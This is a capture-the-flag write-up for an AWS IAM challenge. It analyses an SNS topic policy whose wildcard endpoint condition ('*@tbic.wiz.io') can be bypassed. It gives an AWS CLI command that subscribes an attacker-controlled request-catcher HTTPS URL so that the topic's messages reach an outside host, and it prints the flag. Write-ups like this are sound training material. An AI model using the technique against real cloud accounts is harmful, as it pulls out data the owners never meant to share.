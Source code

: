 # Challenge number: 3

## Challenge Statement
Enable Push Notifications
We got a message for you. Can you get it?

## IAM Policy
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
### write a short analysis about the IAM policy here

* What do I have access to?
According to the above IAM policy SNS topic can send message subscribe to any endpoint ending with @tbic.wiz.io.
* What don't I have access to?
We do not have access to the mail box with the domain @tbic.wiz.io
* What do I find interesting?
It shows subscription  pending always because we cannot confirm it due to no aacees to the mail box


## Solution
As we cannot confirm the pending subscription, we can capture the request through a third party portal called requestcapture.com and make a post request with the following:

aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint https://foyzer.requestcatcher.com/test/e81ba3c4-f37e-4bb6-9041-bf194f97550b/@tbic.wiz.io

It will return a response message with a signingcerturl and then copy the url and paste it in a browser and then we will get a response message with  the flag.
The flag for this challenge is {wiz:always-suspect-asterisks}

## Reflection
* What was your approach?
To find a way how to get confirmation email after sending a message
* What was the biggest challenge?
To find an alternative to email notification that waits for confirming the subscription.
* How did you overcome the challenges?
 After lot of research in Google I was able to find the way. 
* What led to the break through?
After getting the portal of requestcapture.com, it was easy to get the flag.
* On the blue side, how can the learning be used to properly defend the important assets? 
